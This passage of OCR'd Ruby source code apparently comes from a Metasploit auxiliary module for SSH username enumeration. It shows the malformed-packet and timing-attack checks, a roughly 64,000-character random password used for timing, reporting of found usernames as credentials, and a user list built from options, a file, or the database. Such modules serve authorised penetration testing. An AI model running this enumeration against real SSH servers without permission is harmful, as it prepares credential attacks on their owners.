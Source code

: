 ```ruby
    end

    finish_time = Time.new

    case technique
    when :malformed_packet
    return :success if ssh
    when :timing_attack
    return :success if (finish_time - start_time > threshold)
    end

    :fail
end

def rand_pass
    Rex::Text.rand_text_english(64_000..65_000)
end

def do_report(ip, user, _port)
    service_data = {
    address: ip,
    port: rport,
    service_name: 'ssh',
    protocol: 'tcp',
    workspace_id: myworkspace_id
    }

    credential_data = {
    origin_type: :service,
    module_fullname: fullname,
    username: user
    }.merge(service_data)

    login_data = {
    core: create_credential(credential_data),
    status: Metasploit::Model::Login::Status::UNTRIED
    }.merge(service_data)

    create_credential_login(login_data)
end

# Because this isn't using the AuthBrute mixin, we don't have the
# usual peer method
def peer(rhost = nil)
    "#{rhost}:#{rport} - SSH -"
end

def user_list
    users = []

    users << datastore['USERNAME'] unless datastore['USERNAME'].blank?

    if datastore['USER_FILE']
    fail_with(Failure::BadConfig, 'The USER_FILE is not readable') unless File.readable?(datastore['USER_FILE'])
    users += File.read(datastore['USER_FILE']).split
    end

    if datastore['DB_ALL_USERS']
    if framework.db.active
        framework.db.creds(workspace: myworkspace.name).each do |o|
        users << o.public.username if o.public
        end
```